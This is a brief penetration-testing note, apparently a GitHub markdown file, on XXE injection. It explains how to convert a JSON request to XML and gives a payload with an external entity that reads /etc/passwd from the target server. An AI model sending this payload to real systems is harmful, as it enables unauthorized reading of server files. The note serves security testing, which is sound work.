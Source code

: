 # XMLI METHOD

Check the Contenttype that is allowed.
	If application/json change to application/xml //or other option

Change Post data from json to xml (Conten-Type Converter Burp Extension)

## Simple Example
{
  "firstname":"Mike",
  "lastname":"hill",
  "Uid":"123"
 }
-->
<!--?xml version="1.0"?-->
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>


If works try different apporache/payloads
e.g.
<!--?xml version="1.0"?-->
<!DOCTYPE replace [<!ENTITY asd SYSTEM "file:///etc/passwd"> ]>
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>

Read the etc/passwd file if no waf
